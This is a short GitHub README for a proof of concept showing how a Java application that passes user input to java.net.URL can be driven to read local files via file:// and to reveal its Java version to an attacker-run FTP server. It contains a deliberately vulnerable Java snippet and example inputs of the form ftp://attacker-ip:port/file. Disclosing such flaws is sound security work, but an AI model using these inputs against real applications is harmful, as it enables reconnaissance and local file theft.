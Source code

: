 # java-file-ftp
POC for leaking java version through file and ftp protocols

Consider a java web application using URL class to make a connection as below


```java
import java.net.*;
import java.io.*;
public class Main
{
      public static void main(String[] args) throws Exception{

            URL url = new URL(attackerinput);
            System.out.println(url.getProtocol());


            StringBuilder stringBuilder = new StringBuilder();

            DataInputStream dis = new DataInputStream(url.openConnection().getInputStream());
            String inputLine;

            while ((inputLine = dis.readLine()) != null) {
                System.out.println(inputLine);
            }
            dis.close();

        }
}

```

we can get an LFI using file protocol and also we can get the java version of the running application using file or ftp 

so our attackerinput will be ftp://attacker-ip:port/file or file://attacker-ip:port/file . 

Run the ftp server using ```sudo python3 ftp.py```
Compile java and run usin ```javac FilePOC.java && java FilePOC```

Screenshot
![pocimage](https://github.com/samsbp/java-file-ftp/raw/main/pocimg.png)


